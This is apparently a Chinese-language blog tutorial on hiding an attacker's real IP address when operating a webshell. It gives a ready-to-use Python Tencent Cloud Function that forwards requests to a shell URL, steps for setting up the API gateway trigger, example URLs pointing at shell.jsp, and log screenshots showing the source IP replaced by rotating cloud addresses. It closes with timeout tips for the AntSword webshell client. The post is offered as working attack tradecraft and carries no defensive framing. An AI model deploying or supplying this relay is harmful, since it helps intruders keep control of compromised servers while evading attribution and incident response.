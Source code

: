 # 利用云函数隐藏Webshell真实IP



> 腾讯云自带CDN，我们可以通过腾讯云函数来转发我们的Webshell请求，从而达到隐藏真实IP的目的

## 创建云函数
找到云函数，使用自定义模板
![20220613192232](http://image.xpshuai.cn/20220613192232.png)

![20220613192325](http://image.xpshuai.cn/20220613192325.png)

把下面的代码复制到index.py中
```python
# -*- coding: utf8 -*-
import requests
import json
def geturl(urlstr):
    jurlstr = json.dumps(urlstr)
    dict_url = json.loads(jurlstr)
    return dict_url['u']
def main_handler(event, context):
    url = geturl(event['queryString'])
    postdata = event['body']
    headers=event['headers']
    resp=requests.post(url,data=postdata,headers=headers,verify=False)
    response={
        "isBase64Encoded": False,
        "statusCode": 200,
        "headers": {'Content-Type': 'text/html;charset='+resp.apparent_encoding},
        "body": resp.text
    }
    return response

```
> 注意，运行环境要选Ppython3.6，不然3.7的话得手动上传第三方库(感觉我的同事，不然我一直在坑里出不来呢)


![20220613192414](http://image.xpshuai.cn/20220613192414.png)


部署成功后，点击触发管理->创建触发器：
![20220613192526](http://image.xpshuai.cn/20220613192526.png)

这里需要选择API网关触发：
![20220613192618](http://image.xpshuai.cn/20220613192618.png)


创建完成后，下图可以看到我们的访问路径：
![20220613192747](http://image.xpshuai.cn/20220613192747.png)


## 使用方法
然后在我们的访问路径后面增加`?u=webshell一句话木马`的地址即可
例如：
```text
https://sxxxxxxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/helloworld-11?u=http://xxxx/shell.jsp

```



使用云函数之前，可以看到我的真实IP：
我这里使用`tail -f xxx.log`来监控的日志，也可以wireshark抓包
访问：`http://10.80.20.57:8080/test/shell.jsp`
![20220614112844](http://image.xpshuai.cn/20220614112844.png)
![20220614112807](http://image.xpshuai.cn/20220614112807.png)

使用云函数之后，
访问：`https://serxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/forwarded?u=http://xxx/shell.jsp`
![20220614132635](http://image.xpshuai.cn/20220614132635.png)

然后我们查看日志：显示的是腾讯云函数CDN的地址

![20220614132911](http://image.xpshuai.cn/20220614132911.png)
可以看到IP地址是随机的：
![20220614132852](http://image.xpshuai.cn/20220614132852.png)

成功达到目的



## 补充
防止webshell的掉线行为，修改一下超时设置，可以配置为60s  
最好在【函数管理】 -> 【函数配置】里面，最好把执行超时时间设置成和蚁剑里面的超时时间一样或者更长
![20220613193021](http://image.xpshuai.cn/20220613193021.png)









---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8Fwebshell%E7%9C%9F%E5%AE%9Eip/  

